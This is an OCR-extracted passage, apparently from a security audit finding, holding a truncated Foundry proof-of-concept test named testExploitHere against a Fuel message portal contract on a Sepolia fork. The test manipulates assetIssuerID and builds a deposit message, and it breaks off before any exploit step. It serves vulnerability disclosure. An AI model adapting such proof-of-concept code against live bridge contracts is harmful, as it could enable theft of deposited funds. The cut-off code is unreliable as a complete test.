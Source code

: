 the call to update the assetIssuerID on L1 POC:

```solidity 
// SPDX-License-Identifier: BSD 3-Clause License

pragma solidity ^0.8.15;

import "forge-std/Test.sol";
import "./interfaces/IPortalMessage.sol";
import "./interfaces/IERC20.sol";

// run this test in this repo : https://github.com/SunWeb3Sec/defilabs  run forge test --contracts src/test/test.sol -vvvv

contract ContractTest is Test {
    event LogBytes(bytes32 data);

    address public alice;
    address public bob;

    bytes32 public assetIssuerID;

    FuelMessagePortalV3 fuelPortal =
        FuelMessagePortalV3(0x01855B78C1f8868DE70e84507ec735983bf262dA);

    address usdt = 0xdAC17F958D2ee523a2206206994597C13D831ec7;

    enum MessageType {
        DEPOSIT_TO_ADDRESS,
        DEPOSIT_TO_CONTRACT,
        DEPOSIT_WITH_DATA,
        METADATA
    }

    function setUp() public {
        vm.createSelectFork("sepolia");
        alice = vm.addr(1);
        bob = vm.addr(2);
        deal(address(alice), 1 ether);
    }

    function testExploitHere() public {
        //STEP 1 only to show the id before and after

        bytes32 id1 = bytes32(uint256(uint160(bob)));

        setAssetIssuerID(id1);

        uint256 l2MintedAmount = 100 * 10 ** 9;

        bytes memory depositMessage1 = abi.encodePacked(
            assetIssuerID, // this will be 0000
            uint256(MessageType.DEPOSIT_TO_ADDRESS),
            bytes32(uint256(uint160(usdt))),
            uint256(0), // token_id = 0 for all erc20 deposits
            bytes32(uint256(uint160(msg.sender))),
            alice,
            l2MintedAmount,
            uint256(18)
        ); // not important for this POC

        emit LogBytes(id1); // log 32 bytes

```